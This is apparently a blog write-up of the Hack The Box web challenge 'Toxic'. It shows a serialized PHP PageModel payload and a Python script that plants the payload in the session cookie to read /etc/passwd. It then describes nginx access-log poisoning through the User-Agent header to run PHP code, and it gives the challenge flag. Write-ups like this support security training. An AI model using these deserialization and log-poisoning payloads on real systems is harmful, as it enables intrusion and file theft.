 ```yaml
---
title: "Toxic - HackTheBox"
description: "https://app.hackthebox.com/challenges/Toxic"
summary: "Hack The Box Web Challenge Toxic"
date: 2024-01-24
draft: false
tags: ["Web", "HackTheBox", "Easy", "CTF"]
---
```


------------------------

### Challenge Description

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

### Insecure Deserialization

In the given source code we can spot that it is vulnerable to deserialization.

![image](md/5fbcaee1-b10f-4765-93ef-7a4be1f4330b.webp)

`PageModel` have magic method `__destruct()` to exploite Deserialization.

![image](md/1086d508-0033-4c6b-b6d4-3ec831a0bf87.webp)


payload=
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

```python
import requests
from itsdangerous import base64_encode

a = "PageModel"
b = "/etc/passwd"
payload = 'O:'+str(len(a))+':"'+a+'":1:{s:4:"file";s:'+str(len(b))+':"'+b+'";}'
payload = base64_encode(payload).decode()
r = requests.get("http://83.136.249.57:52345/",cookies={"PHPSESSID": payload},proxies={"http":"http://127.0.0.1:8080/"})
print(r.text)
```

The flag's name is random, so we need to find an alternative way to read it.

![image](md/23c0c811-0290-4d90-bd9d-96b18d9c09ca.webp)

### PHP code Injection in log file

We can find the path of `/etc/nginx/nginx.conf` in Dockerfile.

![image](md/f401a175-f86d-4ed6-9143-77d4b12e1817.webp)

Reading this file using the deserialization payload it reveals the path to access log `/var/log/nginx/access.log`.

![image](md/76d581a6-12c0-4665-855b-3c5f1bb44d3f.webp)

By analyzing the access log, we can see that the User-agent is recorded in the log file.

![image](md/d07a5788-7e8e-4667-b447-f4b5d8036053.webp)

We can attempt to insert PHP code into this log file and then read the file to determine whether the PHP code is executed.

![image](md/a4b748d2-a890-4c19-bd1c-166ef783e385.webp)

![image](md/d598a5ab-befc-4657-8b69-fde9f91c5230.webp)

and this works. Now we can use this PHP code injection to obtain the flag.

![image](md/a0a677ec-ee03-460e-84c9-932dc009992f.webp)

![image](md/e25196d7-00c7-4300-b002-11adf36413ff.webp)

Flag: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


Happy Hacking

---
